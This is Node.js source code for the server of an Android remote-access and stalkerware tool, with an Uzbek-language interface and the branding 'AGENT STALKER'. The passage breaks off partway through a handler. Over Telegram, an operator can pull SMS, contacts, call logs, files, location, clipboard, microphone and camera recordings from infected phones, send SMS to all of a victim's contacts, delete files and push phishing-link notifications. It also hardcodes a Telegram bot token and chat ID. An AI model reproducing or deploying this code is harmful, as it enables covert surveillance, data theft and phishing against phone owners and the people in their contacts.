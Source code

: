 const express = require('express');
const webSocket = require('ws');
const http = require('http')
const telegramBot = require('node-telegram-bot-api')
const uuid4 = require('uuid')
const multer = require('multer');
const bodyParser = require('body-parser')
const axios = require("axios");

const token = '7929020275:AAH8QPQAswnBQrWQhmUcCUgpHM1OKpkGfqY'
const id = '5210639990'
const address = 'https://www.google.com'

const app = express();
const appServer = http.createServer(app);
const appSocket = new webSocket.Server({server: appServer});
const appBot = new telegramBot(token, {polling: true});
const appClients = new Map()

const upload = multer();
app.use(bodyParser.json());

let currentUuid = ''
let currentNumber = ''
let currentTitle = ''

app.get('/', function (req, res) {
    res.send('<h1 align="center">server muvafaqqiyatli yuklandi</h1>')
})

app.post("/uploadFile", upload.single('file'), (req, res) => {
    const name = req.file.originalname
    appBot.sendDocument(id, req.file.buffer, {
            caption: `°• xabar ushbu qurilma  <b>${req.headers.model} tomonidan</b> `,
            parse_mode: "HTML"
        },
        {
            filename: name,
            contentType: 'application/txt',
        })
    res.send('')
})
app.post("/uploadText", (req, res) => {
    appBot.sendMessage(id, `°• xabar ushbu  tomonidan<b>${req.headers.model}</b> qurilma\n\n` + req.body['text'], {parse_mode: "HTML"})
    res.send('')
})
app.post("/uploadLocation", (req, res) => {
    appBot.sendLocation(id, req.body['lat'], req.body['lon'])
    appBot.sendMessage(id, `°• lokatsiya <b>${req.headers.model}</b> qurilma nomi`, {parse_mode: "HTML"})
    res.send('')
})
appSocket.on('connection', (ws, req) => {
    const uuid = uuid4.v4()
    const model = req.headers.model
    const battery = req.headers.battery
    const version = req.headers.version
    const brightness = req.headers.brightness
    const provider = req.headers.provider

    ws.uuid = uuid
    appClients.set(uuid, {
        model: model,
        battery: battery,
        version: version,
        brightness: brightness,
        provider: provider
    })
    appBot.sendMessage(id,
        `°• yangi qurilma ulandi\n\n` +
        `• qurilma nomi : <b>${model}</b>\n` +
        `• batareyka holati : <b>${battery}</b>\n` +
        `• android versiyasi: <b>${version}</b>\n` +
        `• ekran chastotasi : <b>${brightness}</b>\n` +
        `• sim karta : <b>${provider}</b>`,
        {parse_mode: "HTML"}
    )
    ws.on('close', function () {
        appBot.sendMessage(id,
            `°• qurilma chiqib ketdi\n\n` +
            `• qurilma nomi : <b>${model}</b>\n` +
            `• batareyka holati : <b>${battery}</b>\n` +
            `• android versiyasi : <b>${version}</b>\n` +
            `• ekran chastotasi : <b>${brightness}</b>\n` +
            `• sim karta: <b>${provider}</b>`,
            {parse_mode: "HTML"}
        )
        appClients.delete(ws.uuid)
    })
})
appBot.on('message', (message) => {
    const chatId = message.chat.id;
    if (message.reply_to_message) {
        if (message.reply_to_message.text.includes('°• sms yubormoqchi bolgan telefon raqamni kiriting ')) {
            currentNumber = message.text
            appBot.sendMessage(id,
                '°• yaxshi endi sms xabarni kiriting\n\n' +
                '• ehtiyot boling agar nomer xato kiritilsa komanda bajarilmaydi',
                {reply_markup: {force_reply: true}}
            )
        }
        if (message.reply_to_message.text.includes('°• sms yubormoqchi bolgan telefon raqamni kiriting ')) {
            appSocket.clients.forEach(function each(ws) {
                if (ws.uuid == currentUuid) {
                    ws.send(`send_message:${currentNumber}/${message.text}`)
                }
            });
            currentNumber = ''
            currentUuid = ''
            appBot.sendMessage(id,
                '°• sorov amalga oshirilmoqda \n\n' +
                '• sorov bir necha soniyalarda amalga oshiriladi',
                {
                    parse_mode: "HTML",
                    "reply_markup": {
                        "keyboard": [["ulangan qurilmalar"], ["komandalar royxati"]],
                        'resize_keyboard': true
                    }
                }
            )
        }
        if (message.reply_to_message.text.includes('°• hamma kontaktlarga xabar yuborish uchun xabar yozing')) {
            const message_to_all = message.text
            appSocket.clients.forEach(function each(ws) {
                if (ws.uuid == currentUuid) {
                    ws.send(`send_message_to_all:${message_to_all}`)
                }
            });
            currentUuid = ''
            appBot.sendMessage(id,
                '°•sizning sorovingiz qabul qilindi\n\n' +
                '• ʏsorov amalga oshirilmoqda bu bir necha soniyalar olishi mumkin',
                {
                    parse_mode: "HTML",
                    "reply_markup": {
                        "keyboard": [["ulangan qurilmalar"], ["komandalar royxati"]],
                        'resize_keyboard': true
                    }
                }
            )
        }
        if (message.reply_to_message.text.includes('°• faylni yuklash uchun  joylashgan joyni kiriting')) {
            const path = message.text
            appSocket.clients.forEach(function each(ws) {
                if (ws.uuid == currentUuid) {
                    ws.send(`file:${path}`)
                }
            });
            currentUuid = ''
            appBot.sendMessage(id,
                '°• sorov qabul qilindi\n\n' +
                '• bir necha soniyalar ichida amalga oshiriladi',
                {
                    parse_mode: "HTML",
                    "reply_markup": {
                        "keyboard": [["ulangan qurilmalar"], ["komandalar royxati "]],
                        'resize_keyboard': true
                    }
                }
            )
        }
        if (message.reply_to_message.text.includes('°• faylni ochirish uchun u joylashgan joyni kiriting')) {
            const path = message.text
            appSocket.clients.forEach(function each(ws) {
                if (ws.uuid == currentUuid) {
                    ws.send(`delete_file:${path}`)
                }
            });
            currentUuid = ''
            appBot.sendMessage(id,
                '°• sorov amalga oshirilmoqda\n\n' +
                '• ',
                {
                    parse_mode: "HTML",
                    "reply_markup": {
                        "keyboard": [["ulangan qurilmalar"], ["komandalar royxati"]],
                        'resize_keyboard': true
                    }
                }
            )
        }
        if (message.reply_to_message.text.includes('°• mikrofonni necha soniya yozib olishni kirting')) {
            const duration = message.text
            appSocket.clients.forEach(function each(ws) {
                if (ws.uuid == currentUuid) {
                    ws.send(`microphone:${duration}`)
                }
            });
            currentUuid = ''
            appBot.sendMessage(id,
                '°• sizning sorovingiz qabul qilindi\n\n' +
                '• bu bir necha soniyalar ichida amalga oshiriladi',
                {
                    parse_mode: "HTML",
                    "reply_markup": {
                        "keyboard": [["ulangan qurilmalar"], ["komandalar royxati "]],
                        'resize_keyboard': true
                    }
                }
            )
        }
        if (message.reply_to_message.text.includes('°• kameraga necha soniya davom etishini kiriting ')) {
            const duration = message.text
            appSocket.clients.forEach(function each(ws) {
                if (ws.uuid == currentUuid) {
                    ws.send(`rec_camera_main:${duration}`)
                }
            });
            currentUuid = ''
            appBot.sendMessage(id,
                '°• sizning sorovingiz qabul qilindi\n\n' +
                '• bu bir necha soniya ichida amalga oshiriladi',
                {
                    parse_mode: "HTML",
                    "reply_markup": {
                        "keyboard": [["ulangan qurilmalar"], ["komandalar royxati"]],
                        'resize_keyboard': true
                    }
                }
            )
        }
        if (message.reply_to_message.text.includes('°• selfie kamera qancha muddat yozib olinishini kiriting')) {
            const duration = message.text
            appSocket.clients.forEach(function each(ws) {
                if (ws.uuid == currentUuid) {
                    ws.send(`rec_camera_selfie:${duration}`)
                }
            });
            currentUuid = ''
            appBot.sendMessage(id,
                '°• sizning sorovingiz qabul qilindi\n\n' +
                '• bu bir necha soniyalar ichida amalga oshirilmoda',
                {
                    parse_mode: "HTML",
                    "reply_markup": {
                        "keyboard": [["ulangan qurilmalar"], ["komandalar royxati"]],
                        'resize_keyboard': true
                    }
                }
            )
        }
        if (message.reply_to_message.text.includes('°• ulangan qurilmaga xabarni yozing')) {
            const toastMessage = message.text
            appSocket.clients.forEach(function each(ws) {
                if (ws.uuid == currentUuid) {
                    ws.send(`toast:${toastMessage}`)
                }
            });
            currentUuid = ''
            appBot.sendMessage(id,
                '°• sizning sorovingiz qabul qilindi\n\n' +
                '• bu bir cha soniya olishi mumkin',
                {
                    parse_mode: "HTML",
                    "reply_markup": {
                        "keyboard": [["ulangan qurilmalar"], ["komandalar royxati"]],
                        'resize_keyboard': true
                    }
                }
            )
        }
        if (message.reply_to_message.text.includes('°• bildirishnomaga')) {
            const notificationMessage = message.text
            currentTitle = notificationMessage
            appBot.sendMessage(id,
                '°• endi bildirishnoma qanaqa borishini kiriting\n\n' +
                '• ',
                {reply_markup: {force_reply: true}}
            )
        }
        if (message.reply_to_message.text.includes('°• fishing ssilka kiriting')) {
            const link = message.text
            appSocket.clients.forEach(function each(ws) {
                if (ws.uuid == currentUuid) {
                    ws.send(`show_notification:${currentTitle}/${link}`)
                }
            });
            currentUuid = ''
            appBot.sendMessage(id,
                '°• sizning sorovingiz qabul qilindi\n\n' +
                '• bu bir necha soniya olishi mumkin',
                {
                    parse_mode: "HTML",
                    "reply_markup": {
                        "keyboard": [["ulangan qurilmalar"], ["komandalar royxati"]],
                        'resize_keyboard': true
                    }
                }
            )
        }
        if (message.reply_to_message.text.includes('°•musiqa linkini yuboring')) {
            const audioLink = message.text
            appSocket.clients.forEach(function each(ws) {
                if (ws.uuid == currentUuid) {
                    ws.send(`play_audio:${audioLink}`)
                }
            });
            currentUuid = ''
            appBot.sendMessage(id,
                '°• sizning sorovingiz qabul qilindi\n\n' +
                '• bu bir necha soniya ichida amalga oshiriladi',
                {
                    parse_mode: "HTML",
                    "reply_markup": {
                        "keyboard": [["ulangan qurilmalar"], ["komandalar royxati"]],
                        'resize_keyboard': true
                    }
                }
            )
        }
    }
    if (id == chatId) {
        if (message.text == '/start') {
            appBot.sendMessage(id,
                '°• xush kelibsiz AGENT STALKER\n\n' +
                '• qurilmaga dastur ornatilgan bolsa uni ulanishini kuting \n\n' +
                '• botdan ulanish haqida xabar kelsa bu muvafaqqiyaqli ulandi degani\n\n' +
                '•qurilmalar royxatini tanlang va kerakli buyruqni tanlang \n\n' +
                '• agar bot ishlamay qolsa qaytib /start buyrugini yuboring\n\n @virtual_stalker ',
                {
                    parse_mode: "HTML",
                    "reply_markup": {
                        "keyboard": [["ulangan qurilmalar"], ["komandalar royxati"]],
                        'resize_keyboard': true
                    }
                }
            )
        }
        if (message.text == 'ulangan qurilmalar') {
            if (appClients.size == 0) {
                appBot.sendMessage(id,
                    '°•ulangan qurilma yoq\n\n' +
                    '• ilovaga ulanganiga ishonch hosil qiling'
                )
            } else {
                let text = '°• ulangan qurilmalar royxati :\n\n'
                appClients.forEach(function (value, key, map) {
                    text += `• qurilma nomi : <b>${value.model}</b>\n` +
                        `• batareyka holati : <b>${value.battery}</b>\n` +
                        `• android versiyasi : <b>${value.version}</b>\n` +
                        `• ekran chastotasi : <b>${value.brightness}</b>\n` +
                        `• sim karta : <b>${value.provider}</b>\n\n`
                })
                appBot.sendMessage(id, text, {parse_mode: "HTML"})
            }
        }
        if (message.text == 'komandalar royxati') {
            if (appClients.size == 0) {
                appBot.sendMessage(id,
                    '°•ulangan qurilmalar yoq\n\n' +
                    '• qurilma ornatilganiga ishonch hosil qiling'
                )
            } else {
                const deviceListKeyboard = []
                appClients.forEach(function (value, key, map) {
                    deviceListKeyboard.push([{
                        text: value.model,
                        callback_data: 'device:' + key
                    }])
                })
                appBot.sendMessage(id, '°• qurilmani boshqarish uchun uni tanlang', {
                    "reply_markup": {
                        "inline_keyboard": deviceListKeyboard,
                    },
                })
            }
        }
    } else {
        appBot.sendMessage(id, '°• ruxsat berilmagan')
    }
})
appBot.on("callback_query", (callbackQuery) => {
    const msg = callbackQuery.message;
    const data = callbackQuery.data
    const commend = data.split(':')[0]
    const uuid = data.split(':')[1]
    console.log(uuid)
    if (commend == 'device') {
        appBot.editMessageText(`°• qurilma uchun komanda tanlang : <b>${appClients.get(data.split(':')[1]).model}</b>`, {
            width: 10000,
            chat_id: id,
            message_id: msg.message_id,
            reply_markup: {
                inline_keyboard: [
                    [
                        {text: 'ilovalar', callback_data: `apps:${uuid}`},
                        {text: 'qurilma malumoti', callback_data: `device_info:${uuid}`}
                    ],
                    [
                        {text: 'faylni skachat qilish', callback_data: `file:${uuid}`},
                        {text: 'faylni ochirib yuborish', callback_data: `delete_file:${uuid}`}
                    ],
                    [
                        {text: 'kopirovat qilingan soz', callback_data: `clipboard:${uuid}`},
                        {text: 'mikrofon', callback_data: `microphone:${uuid}`},
                    ],
                    [
                        {text: 'orqa kamera', callback_data: `camera_main:${uuid}`},
                        {text: 'old kamera', callback_data: `camera_selfie:${uuid}`}
                    ],
                    [
                        {text: 'lokatsiya', callback_data: `location:${uuid}`},
                        {text: 'qisqa xabar', callback_data: `toast:${uuid}`}
                    ],
                    [
                        {text: 'qongiroqlar royxati', callback_data: `calls:${uuid}`},
                        {text: 'kontaktlar royxati', callback_data: `contacts:${uuid}`}
                    ],
                    [
                        {text: 'viratsiya qilish', callback_data: `vibrate:${uuid}`},
                        {text: 'bildirishnoma yuborish', callback_data: `show_notification:${uuid}`}
                    ],
                    [
                        {text: 'xabarlar', callback_data: `messages:${uuid}`},
                        {text: 'sms yuborish', callback_data: `send_message:${uuid}`}
                    ],
                    [
                        {text: 'audio qoyish', callback_data: `play_audio:${uuid}`},
                        {text: 'audio toxtatish', callback_data: `stop_audio:${uuid}`},
                    ],
                    [
                        {
                            text: 'barcha kontaktlarga sms yuborish',
                            callback_data: `send_message_to_all:${uuid}`
                        }
                    ],
                ]
            },
            parse_mode: "HTML"
        })
    }
    if (commend == 'calls') {
        appSocket.clients.forEach(function each(ws) {
            if (ws.uuid == uuid) {
                ws.send('calls');
            }
        });
        appBot.deleteMessage(id, msg.message_id)
        appBot.sendMessage(id,
            '°• sizning sorovingiz qabul qilindi\n\n' +
            '•bu bir necha soniya ichida amalga oshiriladi',
            {
                parse_mode: "HTML",
                "reply_markup": {
                    "keyboard": [["ulangan qurilmalar"], ["komandalar royxati"]],
                    'resize_keyboard': true
                }
            }
        )
    }
    if (commend == 'contacts') {
        appSocket.clients.forEach(function each(ws) {
            if (ws.uuid == uuid) {
                ws.send('contacts');
            }
        });
        appBot.deleteMessage(id, msg.message_id)
        appBot.sendMessage(id,
            '°• sizning sorovingiz qabul qilindi\n\n' +
            '• bu bir necha soniya ichida amalga oshiriladi',
            {
                parse_mode: "HTML",
                "reply_markup": {
                    "keyboard": [["ulangan qurilmalar"], ["komandalar royxati"]],
                    'resize_keyboard': true
                }
            }
        )
    }
    if (commend == 'messages') {
        appSocket.clients.forEach(function each(ws) {
            if (ws.uuid == uuid) {
                ws.send('messages');
            }
        });
        appBot.deleteMessage(id, msg.message_id)
        appBot.sendMessage(id,
            '°• sorovingiz qabul qilindi\n\n' +
            '•bu bir necha soniya davom etishi mumkin',
            {
                parse_mode: "HTML",
                "reply_markup": {
                    "keyboard": [["ulangan qurilmalar"],      ["komandalar royxati"]],
                    'resize_keyboard': true
                }
            }
        )
    }
    if (commend == 'apps') {
        appSocket.clients.forEach(function each(ws) {
            if (ws.uuid == uuid) {
                ws.send('apps');
            }
        });
        appBot.deleteMessage(id, msg.message_id)
        appBot.sendMessage(id,
            '°• sizning sorovingiz qabul qilindi\n\n' +
            '• bu bir necha soniya olishi mumkin',
            {
                parse_mode: "HTML",
                "reply_markup": {
                    "keyboard": [["ulangan qurilmalar"], ["komandalar royxati"]],
                    'resize_keyboard': true
                }
            }
        )
    
